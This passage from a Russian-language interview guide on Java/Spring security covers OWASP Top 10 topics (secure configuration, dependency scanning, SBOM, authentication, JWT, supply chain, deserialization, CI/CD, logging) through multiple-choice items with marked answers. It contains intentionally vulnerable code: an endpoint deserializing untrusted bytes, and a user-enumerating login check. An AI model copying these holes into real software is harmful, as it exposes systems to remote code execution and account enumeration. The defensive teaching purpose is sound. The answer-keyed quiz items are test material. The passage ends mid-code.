Ключевой принцип: **prod-конфигурация должна быть secure by default**, dev-расширения включаются явно:

```yaml
# application.yml — общие настройки (безопасные по умолчанию)
spring:
  jpa:
    open-in-view: false
    show-sql: false

management:
  endpoints:
    web:
      exposure:
        include: health,info

---
# application-dev.yml — только для разработки
spring:
  config:
    activate:
      on-profile: dev
  h2:
    console:
      enabled: true
  jpa:
    show-sql: true

management:
  endpoints:
    web:
      exposure:
        include: "*"  # допустимо только в dev

---
# application-prod.yml
spring:
  config:
    activate:
      on-profile: prod
  datasource:
    url: ${DATABASE_URL}  # из переменных окружения
    username: ${DB_USER}
    password: ${DB_PASSWORD}

server:
  error:
    include-stacktrace: never
    include-message: never
```

> Секреты **никогда** не должны быть в `application.yml` — только из env-переменных, `Vault` или `Secret Manager` (см. Q37).

> [!mcq]
> - [ ] Dev и prod конфигурации различаются только URL базы данных; все остальные настройки (actuator exposure, show-sql, H2 console) должны быть одинаковыми для воспроизводимости бага. | Это противоречит secure by default. Dev-расширения (H2 console, actuator *, show-sql, debug-логи) должны быть ВЫКЛЮЧЕНЫ в prod. Одинаковая конфигурация создаст дыры безопасности в prod. Воспроизведение багов достигается через staging-профиль с prod-like конфигом.
> - [x] Prod-конфигурация должна быть secure by default, dev-расширения (H2 console, actuator *, show-sql, include-stacktrace) включаются явно в application-dev.yml через spring.config.activate.on-profile=dev; секреты — из env-переменных/Vault, не из yml. | Верный подход. Общий application.yml содержит безопасные значения, профильные override-файлы (application-dev/prod.yml) добавляют специфику. Секреты через ${DATABASE_URL}, ${DB_PASSWORD} берутся из env или Vault, не из git.
> - [ ] Секреты (пароли БД, API-ключи) должны храниться в application.yml с префиксом dev-/prod-; это упрощает deploy и eliminates необходимость в Vault. | Секреты НИКОГДА не должны быть в application.yml (даже в зашифрованном виде): yml попадает в git и Docker-образы. Правильный подход — env-переменные (${DB_PASSWORD}), Vault или Cloud Secret Manager. Префиксы не спасают от утечки через git history.
> - [ ] Разделение dev/prod выполняется через условную компиляцию с @ConditionalOnProperty: один application.yml с if-else логикой для каждого окружения. | Spring Boot не использует условную компиляцию. Разделение работает через профили (Spring Profiles) и файлы application-{profile}.yml. @ConditionalOnProperty применяется на бинах, а не на yml-конфиге.

---

## Q21. (!) Как выявлять и управлять уязвимыми зависимостями?

`Vulnerable and Outdated Components` (`A06:2021`) — использование библиотек с известными `CVE`. Проблема часто **транзитивная**: уязвимость в зависимости зависимости.

**Инструменты для Java/Gradle:**

```groovy
// build.gradle — OWASP Dependency-Check
plugins {
    id 'org.owasp.dependencycheck' version '9.0.9'
}

dependencyCheck {
    failBuildOnCVSS = 7.0f  // fail на High и Critical
    formats = ['HTML', 'JSON']
    suppressionFile = 'owasp-suppressions.xml'  // false positives
}
```

```groovy
// Gradle — отображение дерева зависимостей для анализа
// ./gradlew dependencies --configuration runtimeClasspath
```

**Процесс управления:**



> [!mcq]
> - [x] Vulnerable and Outdated Components (A06:2021) выявляется через SCA-инструменты: OWASP Dependency-Check, Snyk, Trivy — сканируют транзитивные зависимости на известные CVE; интегрируются в CI/CD с блокировкой MR на High/Critical. | Верный подход. SCA (Software Composition Analysis) — стандартный инструмент для управления component risk. Ключ — автоматизация в CI (Gradle: dependencyCheckAnalyze, failBuildOnCVSS=7.0) + процесс: SLA по severity, suppression-файлы для false positives, мониторинг после деплоя.
> - [ ] Vulnerable Components выявляется исключительно через ручной анализ build.gradle перед каждым релизом; автоматические инструменты (OWASP Dependency-Check) не учитывают транзитивные зависимости. | Ручной анализ непрактичен: современные Java-приложения имеют сотни транзитивных зависимостей. OWASP Dependency-Check анализирует ВСЕ зависимости (включая транзитивные) через дерево runtimeClasspath. Автоматизация в CI обязательна.
> - [ ] Vulnerable Components — это проблема только npm-экосистемы (malicious packages); в Java/Maven такие атаки невозможны благодаря Maven Central и GPG-подписям. | Это опасное заблуждение. Java-экосистема регулярно сталкивается с уязвимостями зависимостей (Log4Shell 2021, Spring4Shell 2022). Maven Central не верифицирует отсутствие CVE. GPG-подписи гарантируют авторство, но не отсутствие уязвимостей. SCA обязателен для Java.
> - [ ] Vulnerable Components решается автоматическим обновлением всех зависимостей до latest через Dependabot без регрессионного тестирования; latest версия всегда безопасна. | Автоматическое обновление без тестов создаёт риск breaking changes и зависимостей с новыми уязвимостями (не все CVE исправляются сразу). Правильный подход: Dependabot создаёт MR, CI прогоняет тесты, команда ревьюит изменения перед мержем.

## Q22. Что такое SBOM и зачем он нужен?

`SBOM` (`Software Bill of Materials`) — полный перечень всех компонентов, включённых в приложение, с версиями и лицензиями. Аналог списка ингредиентов на упаковке продукта.

**Генерация SBOM в формате CycloneDX:**
```groovy
// build.gradle
plugins {
    id 'org.cyclonedx.bom' version '1.8.2'
}

cyclonedxBom {
    includeConfigs = ['runtimeClasspath']
    outputFormat = 'json'
    schemaVersion = '1.5'
}
// ./gradlew cyclonedxBom → build/reports/bom.json
```

Зачем нужен SBOM:
- **Быстрая реакция на CVE** — при появлении уязвимости в `Log4j` можно за секунды проверить, используется ли она
- **Compliance** — многие регуляторы (FDA, CISA) требуют SBOM
- **Лицензионный аудит** — выявление несовместимых лицензий
- **Supply chain transparency** — понимание, что именно входит в артефакт

> [!mcq]
> - [ ] SBOM — это отчёт SAST-сканирования, показывающий уязвимости в коде приложения; генерируется SonarQube после статического анализа. | Это путает SBOM с отчётом SAST. SBOM (Software Bill of Materials) — перечень всех компонентов с версиями, как список ингредиентов. SAST-отчёт — найденные уязвимости в собственном коде. SBOM генерируется через CycloneDX/SPDX, а не SonarQube.
> - [x] SBOM (Software Bill of Materials) — машиночитаемый список всех компонентов артефакта (зависимости, версии, лицензии); стандарты: CycloneDX, SPDX; нужен для быстрой реакции на CVE (Log4Shell), compliance (FDA/CISA), лицензионного аудита. | Верное определение. Аналог — список ингредиентов на упаковке продукта. При появлении CVE (например, Log4j) SBOM позволяет за секунды найти все приложения с уязвимой зависимостью. В Gradle: cyclonedxBom plugin генерирует JSON/XML.
> - [ ] SBOM — это внутренний документ security-команды; разработчики не должны иметь доступ к SBOM, так как он содержит чувствительную информацию о версиях библиотек. | SBOM — публичный артефакт (часто распространяется вместе с релизом). Версии библиотек не являются секретом — они и так легко определяются из open source кода. Современные стандарты (CISA, EU Cyber Resilience Act) требуют публикации SBOM для пользователей.
> - [ ] SBOM генерируется вручную перед каждым релизом через grep по pom.xml или build.gradle; автоматизация невозможна из-за сложности транзитивных зависимостей. | SBOM автоматизирован в сборке через плагины. В Gradle: org.cyclonedx.bom plugin, ./gradlew cyclonedxBom → build/reports/bom.json. Инструмент обходит всё дерево зависимостей (включая транзитивные) и генерирует полный SBOM в CycloneDX/SPDX формате.

## Q23. Как организовать SCA в CI/CD pipeline?

`SCA` (`Software Composition Analysis`) — автоматическая проверка зависимостей на уязвимости:

```yaml
# GitLab CI пример
dependency-check:
  stage: security
  script:
    - ./gradlew dependencyCheckAnalyze
  artifacts:
    paths:
      - build/reports/dependency-check-report.html
  allow_failure: false  # блокирует MR при критичных CVE

# Дополнительно — Trivy для контейнеров
container-scan:
  stage: security
  script:
    - trivy image --severity HIGH,CRITICAL --exit-code 1 $CI_REGISTRY_IMAGE:$CI_COMMIT_SHA
```

Ключевые практики:
- **Сканирование при каждом MR** — раннее обнаружение
- **Подавление false positives** — файл `owasp-suppressions.xml` с обоснованием
- **Мониторинг runtime** — новые CVE могут появиться после деплоя
- **Renovate/Dependabot** — автоматические MR на обновление зависимостей

> [!mcq]
> - [x] SCA интегрируется в CI/CD с блокировкой MR при критичных CVE (allow_failure: false), подавлением false positives через owasp-suppressions.xml с обоснованием, дополнением Trivy для container scanning и Renovate/Dependabot для автообновлений. | Верная стратегия. Ключевой принцип — shift-left: находить уязвимости при MR, а не в production. Suppression-файл — не замалчивание, а документирование обоснованных исключений. Trivy сканирует Docker-слои, которые не покрывает OWASP Dependency-Check.
> - [ ] SCA запускается только раз в квартал как ручной security-аудит; интеграция в CI/CD избыточна, так как новые CVE появляются редко. | Новые CVE публикуются ежедневно. Квартальный ручной аудит оставляет окно атаки в 3 месяца — за это время Log4Shell (2021) заразил миллионы систем. Автоматизация в CI с shift-left необходима для своевременного обнаружения.
> - [ ] SCA должен запускаться только на prod-ветках; на feature-branches сканирование избыточно, так как код ещё не попадает в production. | Это откладывает обнаружение на последний момент. Принцип shift-left: находить проблемы как можно раньше (на MR). Обнаружение CVE перед merge позволяет исправить без экстренного hotfix. Сканирование на feature-branches — best practice.
> - [ ] SCA полностью заменяет pentest и DAST в CI/CD; если SCA пройден, приложение считается безопасным для production-релиза. | SCA покрывает только component vulnerabilities (A06), но не SQL Injection, XSS, Broken Access Control, SSRF и другие категории. Полная security-стратегия: SAST (код), SCA (зависимости), Secret Scan, IaC Scan, Container Scan, DAST (runtime). Каждый инструмент покрывает свою категорию.

---

## Q24. (!) Какие ошибки аутентификации наиболее опасны?

`Identification and Authentication Failures` (`A07:2021`) — ошибки, дающие злоумышленнику доступ под чужой учётной записью:

1. **Слабая политика паролей** — минимум 8 символов недостаточен, нужна проверка по словарям утечек
2. **Отсутствие `MFA`** — для критичных систем `MFA` обязателен
3. **Уязвимый password recovery** — предсказуемые токены, отсутствие rate limiting
4. **`Session fixation`** — сессия не пересоздаётся после логина
5. **Длинноживущие токены** — `JWT` без expiration или с expiration в неделю
6. **Отсутствие lockout** — неограниченные попытки ввода пароля
7. **Утечка информации** — «пользователь не найден» vs «неверный пароль» (подсказка атакующему)

```java
// ПЛОХО: раскрывает существование пользователя
if (user == null) throw new AuthException("User not found");
if (!matches(password)) throw new AuthException("Wrong password");

// ХОРОШО: единообразный ответ
if (user == null || !passwordEncoder.matches(password, user.getPassword())) {
    throw new BadCredentialsException("Invalid credentials");
}
```

Подробнее о паттернах аутентификации — в [вопросах по аутентификации](authentication-authorization-patterns-interview.md), о `OAuth2` — в [вопросах по OAuth2](oauth2-interview.md).

> [!mcq]
> - [ ] Identification and Authentication Failures (A07:2021) — это ошибки только в реализации OAuth2/OIDC; классическая форм-аутентификация с username/password не подпадает под эту категорию. | Это неверно. A07 покрывает ВСЕ виды аутентификации: формы, OAuth2, JWT, SAML, Basic Auth. Классические проблемы — слабые пароли, session fixation, отсутствие lockout, длинный exp у токенов, утечка информации через разные сообщения об ошибках.
> - [x] A07 включает: отсутствие MFA для критичных систем, уязвимый password recovery (предсказуемые токены, нет rate limit), session fixation, длинноживущие JWT без expiration, утечка информации через разные сообщения ("user not found" vs "wrong password"). | Верный список. Разные сообщения об ошибках позволяют enumeration атаки. Рекомендация — единообразный ответ: "Invalid credentials" и через одинаковое время (constant-time comparison). MFA обязателен для привилегированных аккаунтов.
> - [ ] Основная ошибка аутентификации — отсутствие CAPTCHA на форме логина; наличие CAPTCHA полностью решает проблемы brute force и credential stuffing. | CAPTCHA — один из механизмов, но не основная защита. Более серьёзные проблемы: слабые политики паролей, session fixation, длинные JWT, уязвимый password recovery. CAPTCHA обходится через CAPTCHA-solving сервисы и не помогает при утечке паролей (credential stuffing).
> - [ ] Длинноживущие токены безопаснее коротких, так как требуют меньше запросов к auth-серверу и снижают нагрузку на инфраструктуру. | Длинные токены увеличивают окно атаки при компрометации: украденный access token с exp=1 неделя дает атакующему неделю доступа. Стандартная практика — access token 15 мин + refresh token 7 дней. Rotation refresh tokens снижает риск ещё сильнее.

## Q25. Как защититься от brute force и credential stuffing?

**Rate limiting + progressive delay + account lockout:**

```java
@Service
@RequiredArgsConstructor
public class LoginProtectionService {

    private final Cache<String, LoginAttempts> attemptsCache;

    public void checkAndRecord(String username, String clientIp, boolean success) {
        String key = username + ":" + clientIp;
        LoginAttempts attempts = attemptsCache.get(key, k -> new LoginAttempts());

        if (attempts.isLocked()) {
            throw new AccountLockedException(
                "Account locked. Try again in " + attempts.getLockRemainingMinutes() + " min");
        }

        if (success) {
            attemptsCache.invalidate(key);
        } else {
            attempts.increment();
            // Progressive lockout: 5 попыток → блок 1 мин, 10 → 5 мин, 15 → 30 мин
            if (attempts.getCount() >= 15) {
                attempts.lockFor(Duration.ofMinutes(30));
            } else if (attempts.getCount() >= 10) {
                attempts.lockFor(Duration.ofMinutes(5));
            } else if (attempts.getCount() >= 5) {
                attempts.lockFor(Duration.ofMinutes(1));
            }
        }
    }
}
```

**Credential stuffing** — атака с использованием утёкших пар логин/пароль из других сервисов. Дополнительные меры:
- Проверка паролей по базе утечек (`HaveIBeenPwned` API)
- `CAPTCHA` после N неудачных попыток
- Детекция аномалий: новый IP, необычный User-Agent, массовые запросы

> [!mcq]
> - [x] Защита от brute force — progressive lockout (5 попыток → 1 мин, 10 → 5 мин, 15 → 30 мин) + rate limiting по IP/username; от credential stuffing — проверка паролей по базе утечек (HaveIBeenPwned) + CAPTCHA + детекция аномалий. | Верная стратегия. Progressive lockout балансирует UX и безопасность. Credential stuffing (атака украденными парами из утечек) требует дополнительных мер: HIBP API отклоняет известные утёкшие пароли при регистрации/смене, CAPTCHA после подозрительной активности.
> - [ ] Защита от brute force — хранение паролей в BCrypt; медленный хэш автоматически делает brute force невозможным, никакие rate limits не нужны. | BCrypt защищает от offline brute force (если украли хэши из БД), но не от online brute force (запросы к живому API). Злоумышленник не считает хэши — он отправляет POST /login с разными паролями. Rate limiting обязателен независимо от алгоритма хэширования.
> - [ ] Защита от brute force — блокировка аккаунта навсегда после 3 неудачных попыток; это гарантированно предотвращает атаки, так как злоумышленник не может снова попробовать. | Постоянная блокировка — это DoS-вектор: атакующий может заблокировать любого пользователя, попытавшись войти с неверным паролем 3 раза. Стандартная практика — временный lockout (1-30 мин), который предотвращает brute force, но не блокирует легитимных пользователей навсегда.
> - [ ] Credential stuffing предотвращается только через MFA; никакие другие меры (HIBP, CAPTCHA, rate limiting) не эффективны против атак с утёкшими паролями. | MFA — мощная защита, но не единственная. HIBP API проверяет пароли по базе утечек ПРИ РЕГИСТРАЦИИ/СМЕНЕ, предотвращая использование скомпрометированных паролей. CAPTCHA и rate limiting увеличивают стоимость атаки. Defense in depth требует нескольких слоёв.

## Q26. Как безопасно управлять JWT-токенами?

`JWT` — распространённый механизм stateless-аутентификации, но с типичными ошибками:

| Ошибка | Последствие | Правильный подход |
|--------|------------|-------------------|
| `alg: none` | Токен без подписи принимается | Явно указывать допустимые алгоритмы |
| Хранение секретов в payload | Утечка данных | Минимум данных: `sub`, `roles`, `exp` |
| Длинный `exp` (дни/недели) | Невозможно отозвать | Access token: 15 мин, refresh: 7 дней |
| Секрет-подпись `"secret"` | Подделка токенов | RSA/EC ключи, минимум 256 бит |
| Нет `aud`/`iss` validation | Token confusion | Всегда проверять `audience` и `issuer` |

```java
// Безопасная конфигурация JWT в Spring Security
@Bean
public JwtDecoder jwtDecoder() {
    NimbusJwtDecoder decoder = NimbusJwtDecoder
            .withPublicKey(rsaPublicKey)
            .build();

    // Валидация claims
    OAuth2TokenValidator<Jwt> validators = new DelegatingOAuth2TokenValidator<>(
        JwtValidators.createDefaultWithIssuer("https://auth.example.com"),
        new JwtClaimValidator<List<String>>("aud", 
            aud -> aud.contains("my-api")),
        new JwtTimestampValidator(Duration.ofSeconds(30)) // clock skew
    );
    decoder.setJwtValidator(validators);
    return decoder;
}
```

> [!mcq]
> - [ ] JWT безопасно подписывать алгоритмом "none" — это упрощает reуверификацию в distributed-системах, так как не требует распространения секретного ключа. | Алгоритм "none" — это критическая уязвимость: токен без подписи принимается как валидный. Злоумышленник меняет header на {"alg":"none"} и modifies payload без необходимости знать секрет. Библиотека должна явно запрещать "none" через whitelist разрешённых алгоритмов.
> - [x] Безопасный JWT: access token с exp=15 мин, refresh token=7 дней с rotation; подпись через RSA/EC (асимметричная) или HS256 с ключом ≥256 бит; валидация aud/iss; явный whitelist алгоритмов без "none"; минимум данных в payload (sub, roles, exp). | Верные практики. RS256/ES256 предпочтительнее HS256 для multi-service: приватный ключ у auth-сервера, публичный у resource-серверов. Валидация aud/iss предотвращает token confusion (токен от service A принимается service B).
> - [ ] JWT payload может безопасно содержать любые данные (пароль, номер карты), так как JWT подписан и защищён от изменения. | Подпись защищает от ИЗМЕНЕНИЯ, но не от ЧТЕНИЯ. JWT по умолчанию не шифрует payload — это base64-encoded JSON, который любой может прочитать. Чувствительные данные (пароли, CVV, PII) нельзя помещать в JWT. Минимум данных: sub, roles, exp, aud, iss.
> - [ ] JWT с долгим exp (30 дней) безопаснее коротких (15 мин): меньше запросов к auth-серверу, нет риска утечки при обновлении, нет сложности с refresh-токенами. | Долгий exp в JWT катастрофичен: JWT — stateless, его нельзя отозвать до истечения. Украденный токен на 30 дней = 30 дней доступа атакующего. Короткий access token + refresh token — стандарт. Для отзыва — token revocation list или короткое TTL.

---

## Q27. (!) Что такое supply-chain атаки и как от них защищаться?

`Software and Data Integrity Failures` (`A08:2021`) — **новая категория**, покрывающая атаки на цепочку поставки ПО:



**Реальные примеры:**
- **`SolarWinds`** (2020) — компрометация build-системы, вредоносный код в обновлении
- **`Log4Shell`** (2021) — уязвимость в повсеместно используемой библиотеке
- **`Codecov`** (2021) — подмена bash-скрипта в CI/CD
- **`Dependency confusion`** — публичный пакет с именем внутреннего, npm/Maven берёт публичный

**Защита:**
- **Подпись артефактов** — GPG-подпись JAR-файлов, `Sigstore`/`cosign` для контейнеров
- **Проверка checksums** — `gradle --verify-metadata` с `verification-metadata.xml`
- **Private registry** — Nexus/Artifactory как proxy с контролем
- **Pinning версий** — точные версии вместо диапазонов (`1.2.3`, не `1.+`)
- **SBOM** — полный учёт всех компонентов (см. Q22)

> [!mcq]
> - [x] Supply-chain атаки (A08:2021) — компрометация build-системы, зависимостей или CI/CD (SolarWinds, Log4Shell, Codecov, dependency confusion); защита — подпись артефактов (Sigstore/cosign), проверка checksums, private registry как proxy, pinning версий, SBOM. | Верное описание. SolarWinds (2020) — вредоносный код через build-систему. Dependency confusion — атакующий публикует public-пакет с именем внутреннего. Gradle verification-metadata.xml фиксирует checksums. Cosign/Sigstore — подпись Docker-образов.
> - [ ] Supply-chain атаки (A08:2021) касаются только malicious npm-пакетов; Java/Maven-экосистема защищена централизованным Maven Central. | Java уязвим к supply-chain атакам. Примеры: Log4Shell (уязвимость в Apache Log4j 2021), Spring4Shell (2022), компрометация typosquatting пакетов в Maven Central. Centralized registry не гарантирует отсутствие вредоносного кода — требуются SCA, SBOM, подписи.
> - [ ] Supply-chain атаки защищаются только использованием open source зависимостей: open source код audited сообществом и не может содержать бэкдоров. | Open source не гарантирует безопасность: Log4j был open source, но содержал уязвимость JNDI-lookup 8 лет до обнаружения. SolarWinds — closed source, event-stream npm (2018) — open source с внедрённым бэкдором. Защита: SCA, SBOM, подписи, мониторинг CVE.
> - [ ] Pinning версий (точные 1.2.3 вместо диапазонов 1.+) увеличивает риск supply-chain атак: разработчики не получают автоматические security-обновления и остаются на уязвимых версиях. | Pinning — основа защиты от supply-chain атак: garantira воспроизводимость сборки и предотвращает автоматическое включение вредоносных версий. Security-обновления управляются отдельно через Dependabot/Renovate (MR с явным обновлением + тестирование), а не автоматическим диапазоном версий.

## Q28. Чем опасна небезопасная десериализация в Java?

Небезопасная десериализация позволяет выполнить **произвольный код** на сервере через специально сконструированный объект:

**Уязвимый код:**
```java
// ОПАСНО: десериализация произвольного объекта из HTTP-запроса
@PostMapping("/api/import")
public void importData(@RequestBody byte[] data) {
    ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(data));
    Object obj = ois.readObject(); // RCE через gadget chain!
    processData(obj);
}
```

**Защита:**

1. **Не использовать Java serialization** для внешних данных — использовать `JSON` (`Jackson`) или `Protobuf`
2. Если нужна Java serialization — **whitelist классов**:

```java
// ObjectInputFilter (Java 9+)
ObjectInputStream ois = new ObjectInputStream(input);
ois.setObjectInputFilter(ObjectInputFilter.Config.createFilter(
    "com.myapp.dto.*;!*"  // только свои DTO, всё остальное — reject
));
```

3. **Jackson** тоже требует осторожности:
```java
ObjectMapper mapper = new ObjectMapper();
// ОПАСНО: включает полиморфную десериализацию
// mapper.enableDefaultTyping(); // НИКОГДА не делать

// Безопасно: явная аннотация только где нужно
@JsonTypeInfo(use = Id.NAME, property = "type")
@JsonSubTypes({
    @JsonSubTypes.Type(value = CreditCard.class, name = "credit"),
    @JsonSubTypes.Type(value = BankTransfer.class, name = "bank")
})
public abstract class PaymentMethod { }
```

> [!mcq]
> - [ ] Небезопасная десериализация в Java опасна только утечкой данных из payload; RCE через десериализацию возможен только в Python (pickle), но не в Java. | Java serialization — один из главных векторов RCE. Gadget chains (ysoserial) в CommonsCollections, Spring, Hibernate позволяют выполнить произвольный код при readObject(). Log4Shell (JNDI) — тоже пример десериализационной атаки. Проблема известна с 2015 года.
> - [x] Небезопасная десериализация в Java позволяет RCE через gadget chains (ysoserial: CommonsCollections, Spring, Hibernate) при ObjectInputStream.readObject(); защита — не использовать Java serialization для external data (JSON/Protobuf), whitelist через ObjectInputFilter, не включать enableDefaultTyping в Jackson. | Верное описание. Jackson enableDefaultTyping = поля типа Object десериализуются в произвольный класс (gadget chain). Правильно — @JsonTypeInfo с явным whitelist через @JsonSubTypes для конкретных полиморфных иерархий.
> - [ ] Jackson безопасен при любой конфигурации, так как работает с JSON (текстовый формат), а не с Java serialization; gadget chains работают только с бинарными ObjectInputStream. | Jackson тоже уязвим при enableDefaultTyping() или при полиморфных классах без whitelist. Известны CVE-2017-7525, CVE-2019-12384 и другие — RCE через Jackson polymorphic deserialization. Требует явного @JsonTypeInfo + @JsonSubTypes whitelist.
> - [ ] Решение проблемы десериализации — использование только Serializable-интерфейса для всех DTO; ObjectInputStream проверяет Serializable и отклоняет потенциально опасные классы. | Serializable — маркерный интерфейс без проверки безопасности: ObjectInputStream НЕ валидирует класс, а просто десериализует любой Serializable. Gadget chains как раз используют legitimate Serializable классы из библиотек (CommonsCollections). Защита — ObjectInputFilter с whitelist или отказ от Java serialization.

## Q29. Как защитить CI/CD pipeline от компрометации?

CI/CD pipeline — привилегированная среда с доступом к секретам и деплою. Защита:

```yaml
# GitLab CI — принципы безопасного pipeline
stages:
  - build
  - security
  - test
  - deploy

build:
  stage: build
  script:
    - ./gradlew build -x test
  # Принцип: минимальные права у CI runner
  tags: [restricted-runner]

verify-signatures:
  stage: security
  script:
    # Проверка подписей зависимостей
    - ./gradlew --write-verification-metadata sha256
    - git diff --exit-code gradle/verification-metadata.xml

security-scan:
  stage: security
  script:
    - ./gradlew dependencyCheckAnalyze
    - trivy image --exit-code 1 $IMAGE
  # Разделение: security-сканирование — отдельный stage с отдельными правами
```

Ключевые практики:
- **Изоляция секретов** — CI-переменные доступны только нужным стадиям
- **Immutable runners** — runner пересоздаётся после каждой задачи
- **Protected branches** — деплой только с `main`, merge requires approval
- **Аудит изменений** — все изменения в `.gitlab-ci.yml` требуют ревью
- **Минимальные права** — deploy token имеет только `push` к registry

> [!mcq]
> - [x] Защита CI/CD: immutable runners (пересоздание после каждой задачи), изоляция секретов по стадиям, protected branches с approval, минимальные права deploy-токенов (только push в registry), подписи зависимостей и образов (cosign/Sigstore). | Верная стратегия. Изоляция секретов предотвращает утечку через PR-сборки. Immutable runners предотвращают persistence атакующего. Approval на protected branch — гарантия ревью критичных изменений. Cosign подписывает Docker-образы для проверки аутентичности при деплое.
> - [ ] CI/CD pipeline защищается только network isolation runner'а от internet; все остальные меры (подписи, минимальные права, immutable runners) избыточны. | Network isolation — лишь один слой. Атака может произойти через compromised dependency (SolarWinds build-system), malicious PR, stolen CI-secrets. Defense in depth требует всех слоёв: подписи, минимальные права, immutable runners, approval на protected branches.
> - [ ] CI-runner должен иметь root-доступ и полные права в cloud-аккаунте для гибкости деплоя; ограничение прав усложняет pipeline и ломает автоматизацию. | Root + полные права = catastrophic blast radius при компрометации. Best practice — минимальные права: отдельные service accounts для build/test/deploy, OIDC federation вместо долгоживущих credentials. Гибкость достигается правильной архитектурой, а не привилегиями.
> - [ ] Секреты в CI/CD должны быть доступны всем стадиям pipeline для упрощения переиспользования; ограничение на уровне стадий создаёт проблемы отладки. | Изоляция секретов по стадиям — обязательная мера. Build-стадия не должна иметь access к deploy-credentials. Security-scan не нужен API-ключ к production. GitLab CI позволяет ограничивать переменные по environment и protected branches. Минимизация blast radius.

---

## Q30. (!) Что должна включать стратегия security-логирования?

`Security Logging and Monitoring Failures` (`A09:2021`) — если атака не записана и не алертится, инцидент обнаруживается слишком поздно. Средний TTD (Time to Detect) breach — **287 дней** (IBM Cost of Data Breach Report).

**Три компонента стратегии:**



**Критическое правило**: логирование без процесса реагирования почти бесполезно. Нужны алерты, runbooks и on-call.

> [!mcq]
> - [ ] Security Logging and Monitoring Failures (A09:2021) — это просто проблема retention logs: логи должны храниться не менее 1 года, и это всё, что требуется. | Retention — лишь одна часть. Стратегия логирования включает: ЧТО логировать (auth events, access denied, sensitive ops), КАК логировать (structured JSON, correlation ID, tamper-proof storage), КАК РЕАГИРОВАТЬ (real-time alerts, SIEM correlation, runbooks, on-call).
> - [x] Стратегия security-логирования включает три компонента: что логировать (auth events, access denied, sensitive ops), как логировать (structured JSON, correlation ID, tamper-proof storage, retention), как реагировать (real-time alerts, SIEM, runbooks, on-call). | Верный фреймворк. Средний TTD breach — 287 дней (IBM Cost of Data Breach Report). Без алертинга и процесса реагирования логи бесполезны. SIEM (Splunk, ELK) нужен для correlation множества событий в attack patterns.
> - [ ] Security-логирование достаточно включить через logging.level.org.springframework.security=DEBUG; Spring Security автоматически логирует все необходимые события. | DEBUG-логи Spring Security полезны для отладки, но не заменяют security audit logs: нет structured format, нет correlation ID, нет отдельного audit destination. Debug-логи в проде раскрывают внутреннюю структуру. Нужен отдельный audit logger с AOP-аспектами на @PreAuthorize, events.
> - [ ] Главное в security-логировании — логировать как можно больше деталей (full request/response body, все заголовки); больше данных — лучше анализ инцидентов. | Избыточное логирование опасно: утечка паролей, токенов, PII через логи (GDPR violation). Полные request/response bodies раскрывают секреты. Принцип — логировать метаданные событий (user, action, result), а не содержимое; маскировать чувствительные поля.

## Q31. Какие события безопасности обязательно логировать?

**Обязательные security-события:**

```java
@Aspect
@Component
public class SecurityAuditAspect {

    private static final Logger auditLog = LoggerFactory.getLogger("SECURITY_AUDIT");

    // 1. Все попытки аутентификации (успешные и неуспешные)
    @AfterReturning("execution(* *.authenticate(..))")
    public void logSuccessfulAuth(JoinPoint jp) {
        auditLog.info("AUTH_SUCCESS user={} ip={} ua={}",
            getUsername(), getClientIp(), getUserAgent());
    }

    @AfterThrowing(pointcut = "execution(* *.authenticate(..))", throwing = "ex")
    public void logFailedAuth(JoinPoint jp, Exception ex) {
        auditLog.warn("AUTH_FAILURE user={} ip={} reason={}",
            getAttemptedUsername(jp), getClientIp(), ex.getMessage());
    }

    // 2. Отказы авторизации
    @AfterThrowing(pointcut = "@annotation(PreAuthorize)", throwing = "ex")
    public void logAccessDenied(JoinPoint jp, AccessDeniedException ex) {
        auditLog.warn("ACCESS_DENIED user={} resource={} method={}",
